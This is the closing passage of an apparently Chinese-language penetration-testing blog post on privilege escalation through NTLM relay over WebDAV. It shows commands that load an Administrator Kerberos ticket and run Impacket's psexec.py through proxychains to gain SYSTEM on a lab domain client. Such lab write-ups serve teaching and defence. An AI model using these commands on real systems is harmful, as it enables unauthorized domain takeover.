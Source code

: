 最后，通过设置环境变量 `KRB5CCNAME` 来使用票据，并通过 psexec.py 获取 WIN10-CLIENT1 的 SYSTEM 权限，如下图所示。

```bash
export KRB5CCNAME=Administrator.ccache
proxychains4 python3 psexec.py -k pentest.com/Administrator@win10-client1.pentest.com -no-pass
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515113832504.png)
## Ending......
